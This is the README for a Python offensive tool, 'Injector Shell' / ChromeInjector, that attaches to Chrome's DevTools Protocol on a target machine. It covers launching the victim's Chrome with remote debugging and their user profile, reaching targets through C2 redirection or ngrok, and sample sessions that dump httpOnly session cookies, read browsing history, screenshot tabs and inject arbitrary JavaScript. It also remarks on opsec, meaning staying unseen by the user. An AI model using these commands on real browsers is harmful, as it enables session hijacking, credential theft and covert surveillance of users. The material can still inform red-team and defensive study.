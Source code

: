 # Starting
## Target
To inject in a chromium browser via CDP you need... A chromium based browser running with CDP enabled!

The simplest way is to run it locally. CDP runs on 9222 by default or you can customize the debugging port. If you do, don't forget to set a custom CDP port when creating your `ChromeInjector` within Injector Shell!
```cmd
"C:\Program Files\Google\Chrome\Application\chrome.exe" \
--disable-gpu --remote-debugging-port=[remote_debug_port] \
--user-data-dir="C:\Users\[target_user]\AppData\Local\Google\Chrome\User Data" \
--restore-last-session
```
### Remote CDP targets
You can use SSH local port forwarding, other C2 port redirection, or a proxy host. `ChromeInjector` and Injector Shell support proxies/alternate target host names.

## Injector Shell
```text
> python3 ./injectorshell.py -h
Usage: injectorshell.py [options]

Options:
  -h, --help            show this help message and exit
...
> python3 ./injectorshell.py
Welcome to the ChromeInjector Shell!
ci>
```

# Examples
## Getting info on available commands
```text
ci> help

Documented commands (use 'help -v' for verbose/'help <topic>' for details):

Commands
========
close  exec  exec_cocktails  list  new  set_property

...
ci> help exec
Usage: exec [-h]
            {close_tab, eval_script, get_all_cookies, get_domain_cookies, get_open_tab_cookies, get_tab_history,
            list_tabs, method_exec, new_tab, screen_shot_tabs} ...

Execute command

optional arguments:
  -h, --help            show this help message and exit

command:
  {close_tab, eval_script, get_all_cookies, get_domain_cookies, get_open_tab_cookies, get_tab_history, list_tabs, method_exec, new_tab, screen_shot_tabs}
                        cdp command, scripts,...
```

## New Injector and listing open tabs
You can create an injector with default target and port (127.0.0.1:9222) by running `new injector`. You can use tab-autocomplete with new injector to view additional options you can set, such setting a custom name using https and wss (i.e. using something like cloudflared or ngrok to tunnel in)

The first time an injector tries to enumerate pages it needs to use HTTP to get the debug WebSocket.  If for some reason you can't send HTTP at your target, but you can send WebSocket requests, and can enumerate the browser's debug WebSocket url, then you can set this manually `set_property injector_browser_ws`. If you can send HTTP at the target (which is usually the case), then this will get set automatically the first time you run a command.


```text
ci> list installed_commands
close_tab: Close chrome tab
eval_script: Execute script via ChromeInjector
get_all_cookies: Get all cookies via ChromeInjector
get_domain_cookies: Get specific domain cookies via ChromeInjector
get_open_tab_cookies: Get cookies from open tabs via ChromeInjector
get_tab_history: Get history from open tabs via ChromeInjector
list_tabs: List open tabs and windows
method_exec: Execute CDP method (with parameters)
new_tab: Open new window or tab
screen_shot_tabs: Screenshot tabs and write out PNGs
ci> new injector
Created ChromeInjector
ChromeInjector0: 127.0.0.1:9222
ci> exec list_tabs -i ChromeInjector0
Tabs:
[page] New Tab:
    chrome://newtab/
    ws://127.0.0.1:9222/devtools/page/2151B21DC2F98F27FF84A7063FA6FD83
[iframe] chrome-untrusted://new-tab-page/one-google-bar?paramsencoded=:
    chrome-untrusted://new-tab-page/one-google-bar?paramsencoded=
    ws://127.0.0.1:9222/devtools/page/0CA32C4340C89C71C10ED71DEC79413C
[page] Facebook - log in or sign up:
    https://www.facebook.com/
    ws://127.0.0.1:9222/devtools/page/088C2994FE1CFFBE11FC23C894555424
[page] Google Password Manager:
    chrome://password-manager/settings
    ws://127.0.0.1:9222/devtools/page/5CF6EEAC2376C2CA04D36F77BCF75325
[page] What's New:
    chrome://whats-new/
    ws://127.0.0.1:9222/devtools/page/A4CE6B33C13E1C59D0ACCA3941488ED9
[iframe] https://www.google.com/chrome/v2/whats-new/milestones/m132/?updated=false&enabled=PdfSearchify&internal=true&rolled=ToolbarPinning,PerformanceInterventionUI:
    https://www.google.com/chrome/v2/whats-new/milestones/m132/?updated=false&enabled=PdfSearchify&internal=true&rolled=ToolbarPinning,PerformanceInterventionUI
    ws://127.0.0.1:9222/devtools/page/7B8F3D2E7F80651E037DE04E4D12B93E
```

## Making regex and getting cookies
```text
ci> new regex -r '.*google.com.*'
Regex0: .*google.com.*
ci> exec new_tab -i ChromeInjector0 -u "https://google.com"
New ws_url:
ws://127.0.0.1:9222/devtools/page/F82457F355AD1A9CA018B13242DE1037
ci> exec get_open_tab_cookies -i ChromeInjector0 -r Regex0
[('https://www.google.com/', [{'name': 'OTZ', 'value': '...', 'domain': 'ogs.google.com', 'path': '/', 'expires': 1744404808, 'size': 33, 'httpOnly': False, 'secure': True, 'session': False, 'priority': 'Medium', 'sameParty': False, 'sourceScheme': 'Secure', 'sourcePort': 443}, {'name': 'NID', 'value': '...', 'domain': '.google.com', 'path': '/', 'expires': 1757624008.853806, 'size': 335, 'httpOnly': True, 'secure': True, 'session': False, 'sameSite': 'None', 'priority': 'Medium', 'sameParty': False, 'sourceScheme': 'Secure', 'sourcePort': 443}, {'name': 'OGPC', 'value': '...', 'domain': '.google.com', 'path': '/', 'expires': 1744404808, 'size': 15, 'httpOnly': False, 'secure': False, 'session': False, 'priority': 'Medium', 'sameParty': False, 'sourceScheme': 'Secure', 'sourcePort': 443}...], 'ws://127.0.0.1:9222/devtools/page/F82457F355AD1A9CA018B13242DE1037')]
```

## Using direct websocket url
```text
ci> exec get_tab_history -i ChromeInjector0 -w 'ws://127.0.0.1:9222/devtools/page/F82457F355AD1A9CA018B13242DE1037'
[('ws://127.0.0.1:9222/devtools/page/F82457F355AD1A9CA018B13242DE1037', [{'id': 18, 'url': 'https://www.google.com/', 'userTypedURL': 'https://google.com/', 'title': 'Google', 'transitionType': 'auto_toplevel'}, {'id': 20, 'url': 'https://www.google.com/search?...snip...', 'userTypedURL': 'https://www.google.com/search?...snip...&sclient=gws-wiz', 'title': 'chrome dev protocol - Google Search', 'transitionType': 'form_submit'}, {'id': 22, 'url': 'https://chromedevtools.github.io/devtools-protocol/', 'userTypedURL': 'https://chromedevtools.github.io/devtools-protocol/', 'title': 'Chrome DevTools Protocol', 'transitionType': 'link'}, {'id': 24, 'url': 'https://chromedevtools.github.io/devtools-protocol/tot/Animation/', 'userTypedURL': 'https://chromedevtools.github.io/devtools-protocol/tot/Animation', 'title': 'Chrome DevTools Protocol - Animation domain', 'transitionType': 'link'}, {'id': 26, 'url': 'https://chromedevtools.github.io/devtools-protocol/tot/Debugger/', 'userTypedURL': 'https://chromedevtools.github.io/devtools-protocol/tot/Debugger', 'title': 'Chrome DevTools Protocol - Debugger domain', 'transitionType': 'link'}, {'id': 28, 'url': 'https://chromedevtools.github.io/devtools-protocol/tot/Debugger/#method-resume', 'userTypedURL': 'https://chromedevtools.github.io/devtools-protocol/tot/Debugger', 'title': 'Chrome DevTools Protocol - Debugger domain', 'transitionType': 'link'}], 'ws://127.0.0.1:9222/devtools/page/F82457F355AD1A9CA018B13242DE1037')]
```

## Running arbitrary CDP command
```text
ci> exec method_exec -i ChromeInjector0 -r '.*github.*' -m 'Page.reload'
[('https://chromedevtools.github.io/devtools-protocol/tot/Debugger/#method-resume', None, 'ws://127.0.0.1:9222/devtools/page/F82457F355AD1A9CA018B13242DE1037')]
ci> exec method_exec -i ChromeInjector0 -m 'Runtime.evaluate' -a '{"expression": "alert(1);", "returnByValue": false, "silent": false}' -f -r '.*'
[('https://chromedevtools.github.io/devtools-protocol/tot/Debugger/#method-resume', {'result': {'type': 'undefined'}}, 'ws://127.0.0.1:9222/devtools/page/F82457F355AD1A9CA018B13242DE1037')]
```

## Cocktails (experimental)
These perform more complex chains of commands and logic. They take a single injector and then perform multiple commands. CURRENTLY NOT-OPSEC SAFE because they open up a new tab that's visible to the user. These are super buggy and often break with new versions of chrome.

You can currently do things like get history and site-engagement. These both require navigating to the target chrome-url (e.g. chrome://history) and reading the HTML.

```text
ci> exec_cocktails settings_navigator_cocktail -a get_rankings -i ChromeInjector0
[('ws://127.0.0.1:9222/devtools/page/0BB2C7847AF362339CC2881767B02674', {'result': {'type': 'object', 'value': [{'site': 'https://www.facebook.com/', 'rank': '7.75'}, {'site': 'https://chromedevtools.github.io/', 'rank': '3.9'}, {'site': 'https://www.google.com/', 'rank': '3.6'}, {'site': 'http://127.0.0.1:8080/', 'rank': '0.95'}]}}, 'ws://127.0.0.1:9222/devtools/page/0BB2C7847AF362339CC2881767B02674')]
```

## Executing Scripts
You can add your own scripts in-line or from a file (complete with tab completion ;-) )
- Make sure js files can be read without newlines. Especially look at comments (or just remove them)
- JS Pre-processing removes double spaces. Change source if that's a problem
- Make sure to use 'single quotes' in js files

```text
ci> new script -p scripts/page_refresh/refresh.js
Script0: location.reload();
ci> exec eval_script -s Script0 -i ChromeInjector0 -r (github.*)
Response:
[('https://chromedevtools.github.io/devtools-protocol/tot/Debugger/#method-resume', {'result': {'type': 'undefined'}}, 'ws://127.0.0.1:9222/devtools/page/F82457F355AD1A9CA018B13242DE1037')]
```
##  Debugging
Debugging is helpful if something isn't working. Start with `python3 ./injectorshell.py -l [loglevel] `